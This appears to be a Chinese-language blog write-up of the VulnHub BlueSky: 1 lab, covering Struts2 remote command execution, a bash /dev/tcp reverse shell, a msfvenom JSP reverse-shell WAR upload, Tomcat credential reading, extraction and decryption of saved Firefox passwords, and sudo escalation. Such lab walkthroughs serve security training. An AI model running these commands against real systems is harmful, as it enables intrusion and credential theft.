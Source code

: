 ```yaml
---
layout:  post    # 使用的布局（不需要改）
title:   VulnHub-BlueSky靶场渗透测试   # 标题 
subtitle:    #副标题
date:  2021-01-27  # 时间
author:  yanmie    # 作者
header-img: img/.jpg ##标签这篇文章标题背景图片
catalog: true      # 是否归档
tags:        
    - Vulnhub


---
```


### About Release

* **Name**: BlueSky: 1
* **Date release**: 10 Dec 2020
* downpload：https://www.vulnhub.com/entry/bluesky-1,623/
* Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root).

## 一、信息收集

主机发现：

```
nmap -sP 192.168.56.1/24
```

![image-20210126141945664](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126141945664.png)

端口扫描：

```bash
nmap -sT -sV -T4 -p- 192.168.56.104
```

![image-20210126142126196](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126142126196.png)

8080端口tomcat, 22 ssh端口。

但是没啥漏洞。。。

查阅资料结果是 strtus 漏洞。

```
http://192.168.56.104:8080/struts2-showcase/index.action
```

![image-20210126142501422](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126142501422.png)

## 二、漏洞利用

github上找一波工具。

https://github.com/mazen160/struts-pwn

```bash
➜  struts-pwn git:(master) python3 struts-pwn.py -h
usage: struts-pwn.py [-h] [-u URL] [-l USEDLIST] [-c CMD] [--check]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Check a single URL.
  -l USEDLIST, --list USEDLIST
                        Check a list of URLs.
  -c CMD, --cmd CMD     Command to execute. (Default: id)
  --check               Check if a target is vulnerable.
```

![image-20210126142625538](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126142625538.png)

```bash
➜  struts-pwn git:(master) python3 struts-pwn.py -u http://192.168.56.104:8080/struts2-showcase/index.action -c id 

[*] URL: http://192.168.56.104:8080/struts2-showcase/index.action
[*] CMD: id
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

uid=1000(minhtuan) gid=1000(minhtuan) groups=1000(minhtuan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)

[%] Done.

```

成功远程命令执行，那就 反弹 shell。

kali:

```bash
nc -lvnp 4444
```

靶机：

```bash
python3 struts-pwn.py -u http://192.168.56.104:8080/struts2-showcase/index.action -c "bash -i >& /dev/tcp/192.168.56.102/4444 0>&1"
```

成功反弹 shell.

用户目录下得到`user.txt`

```bash
minhtuan@ubuntu:~$ cat user.txt
cat user.txt
Try your best, you have passed the first challenge, and the last one is for you, root me!
```

接下来寻找 root下的 flag.

寻找 tomcat 密码。

因为web中间件是tomcat，tomcat路径为/usr/local/tomcat，我们可以找到tomcat的用户名密码文件/conf/tomcat-users.xml

```bash
minhtuan@ubuntu:~$ locate users.xml
locate users.xml
/usr/local/tomcat/conf/tomcat-users.xml
```

![image-20210126161826148](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126161826148.png)

登录 tomcat ,可上传 war 包，

![image-20210126161929668](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126161929668.png)

`msfvenom` 生成 war包，

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.102 LPORT=5555 -f war>shell.war
```

kali 开启监听:

```bash
nc -lvnp 5555
```

上传 war 包，然后访问

![image-20210126162412576](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126162412576.png)

利用python升级为交互式 shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

在用户根目录下发现mozilla firefox浏览器文件.可以通过这个得到用户名密码记录。

![image-20210126163114591](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126163114591.png)

不同版本的Firefox保存密码记录的文件名称不同，在网上找到firefox浏览器存储用户名密码的文件是logins.json（版本号大于等于32.0）或者signons.sqlite（版本号大于等于3.5，小于32.0），可以看[这里](http://kb.mozillazine.org/Profile_folder_-_Firefox).

找到其位置

```bash
minhtuan@ubuntu:~/.mozilla/firefox$ locate logins.json
locate logins.json
/home/minhtuan/.mozilla/firefox/fvbljmev.default-release/logins.json
```

github找解密脚本

https://github.com/lclevy/firepwd

需安装库，但 kali 默认没有 pip3 ，所以安装一下：

```bash
wget https://bootstrap.pypa.io/get-pip.py
python3 get-pip.py
pip3 -V

pip3 install -r requirements.txt
```

靶机开 一个 http 服务

```bash
python3 -m http.server 8001
```

将文件拷贝出来(脚本需要)，kali执行：

```bash
wget http://192.168.56.104:8001/logins.json
wget http://192.168.56.104:8001/key4.db

python3 firepwd.py
```

![image-20210126170858108](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126170858108.png)

得到账户密码，

## 三、提权

使用sudo -l进行提权，

![image-20210126171329699](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210126171329699.png)

```bash
root@ubuntu:~# cat root.txt
cat root.txt
Amazing, goodjob you!
Thank you for going here

SunCSR Team

```

成功通关。

## 四、总结

信息收集 ---> 8080 tomcat  ---> struts 漏洞 ---> 得到 user.txt 

读取配置文件获取tomcat账号密码 ---> 读取 Firefox保存密码记录 ---> sudo -l 提权 ---> 得到 root.txt

